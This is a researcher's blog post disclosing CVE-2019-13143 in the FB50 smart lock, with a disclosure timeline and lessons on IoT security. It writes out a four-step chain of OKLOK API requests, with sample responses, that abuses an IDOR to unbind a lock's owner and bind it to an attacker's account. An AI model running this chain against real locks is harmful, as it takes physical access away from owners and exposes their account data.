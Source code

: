 ```yaml
---
template: text.html
title: Picking the FB50 smart lock (CVE-2019-13143)
subtitle: … and lessons learnt in IoT security
date: 2019-08-05
url: fb50
---
```


(*originally posted at [SecureLayer7's Blog](http://blog.securelayer7.net/fb50-smart-lock-vulnerability-disclosure), with my edits*)

## The lock

The lock in question is the FB50 smart lock, manufactured by Shenzhen
Dragon Brother Technology Co. Ltd. This lock is sold under multiple brands
across many ecommerce sites, and has over, an estimated, 15k+ users.

The lock pairs to a phone via Bluetooth, and requires the OKLOK app from
the Play/App Store to function. The app requires the user to create an
account before further functionality is available. 
It also facilitates configuring the fingerprint,
and unlocking from a range via Bluetooth.

We had two primary attack surfaces we decided to tackle -- Bluetooth (BLE)
and the Android app.

## Via Bluetooth Low Energy (BLE)

Android phones have the ability to capture Bluetooth (HCI) traffic
which can be enabled under Developer Options under Settings. We made 
around 4 "unlocks" from the Android phone, as seen in the screenshot.

![wireshark packets](/static/img/bt_wireshark.png)

This is the value sent in the `Write` request:

![wireshark write req](/static/img/bt_ws_value.png)

We attempted replaying these requests using `gattool` and `gattacker`,
but that didn't pan out, since the value being written was encrypted.[^1]

## Via the Android app

Reversing the app using `jd-gui`, `apktool` and `dex2jar` didn't get us too
far since most of it was obfuscated. Why bother when there exists an 
easier approach -- BurpSuite.

We captured and played around with a bunch of requests and responses,
and finally arrived at a working exploit chain.

## The exploit

The entire exploit is a 4 step process consisting of authenticated 
HTTP requests:

1. Using the lock's MAC (obtained via a simple Bluetooth scan in the 
vicinity), get the barcode and lock ID
2. Using the barcode, fetch the user ID
3. Using the lock ID and user ID, unbind the user from the lock
4. Provide a new name, attacker's user ID and the MAC to bind the attacker
to the lock

This is what it looks like, in essence (personal info redacted).

### Request 1

```
POST /oklock/lock/queryDevice
{"mac":"XX:XX:XX:XX:XX:XX"}
```

Response:

```
{
   "result":{
      "alarm":0,
      "barcode":"<BARCODE>",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":<LOCK ID>,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
      "mac":"XX:XX:XX:XX:XX:XX",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0
   },
   "status":"2000"
}
```

### Request 2

```
POST /oklock/lock/getDeviceInfo

{"barcode":"https://app.oklok.com.cn/app.html?id=<BARCODE>"}
```

Response:

```
   "result":{
      "account":"email@some.website",
      "alarm":0,
      "barcode":"<BARCODE>",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":<LOCK ID>,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
      "mac":"XX:XX:XX:XX:XX:XX",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0,
      "userId":<USER ID>
   }
```

### Request 3

```
POST /oklock/lock/unbind

{"lockId":"<LOCK ID>","userId":<USER ID>}
```
### Request 4

```
POST /oklock/lock/bind

{"name":"newname","userId":<USER ID>,"mac":"XX:XX:XX:XX:XX:XX"}
```

## That's it! (& the scary stuff)

You should have the lock transferred to your account. The severity of this
issue lies in the fact that the original owner completely loses access to
their lock. They can't even "rebind" to get it back, since the current owner 
(the attacker) needs to authorize that. 

To add to that, roughly 15,000 user accounts' info are exposed via IDOR.
Ilja, a cool dude I met on Telegram, noticed locks named "carlock", 
"garage", "MainDoor", etc.[^2] This is terrifying.

*shudders*

## Proof of Concept

[PoC Video](https://twitter.com/icyphox/status/1158396372778807296)

[Exploit code](https://github.com/icyphox/pwnfb50)

## Disclosure timeline

- **26th June, 2019**: Issue discovered at SecureLayer7, Pune
- **27th June, 2019**: Vendor notified about the issue
- **2nd July, 2019**: CVE-2019-13143 reserved
- No response from vendor
- **2nd August 2019**: Public disclosure

## Lessons learnt

**DO NOT**. Ever. Buy. A smart lock. You're better off with the "dumb" ones
with keys. With the IoT plague spreading, it brings in a large attack surface
to things that were otherwise "unhackable" (try hacking a "dumb" toaster).

The IoT security scene is rife with bugs from over 10 years ago, like
executable stack segments[^3], hardcoded keys, and poor development 
practices in general.

Our existing threat models and scenarios have to be updated to factor 
in these new exploitation possibilities. This also broadens the playing 
field for cyber warfare and mass surveillance campaigns. 

## Researcher info

This research was done at [SecureLayer7](https://securelayer7.net), Pune, IN by:

* Anirudh Oppiliappan (me)
* S. Raghav Pillai ([@_vologue](https://twitter.com/_vologue))
* Shubham Chougule ([@shubhamtc](https://twitter.com/shubhamtc))

[^1]: [This](https://www.pentestpartners.com/security-blog/pwning-the-nokelock-api/) article discusses a similar smart lock, but they broke the encryption.
[^2]: Thanks to Ilja Shaposhnikov (@drakylar).
[^3]: [PDF](https://gsec.hitb.org/materials/sg2015/whitepapers/Lyon%20Yang%20-%20Advanced%20SOHO%20Router%20Exploitation.pdf)


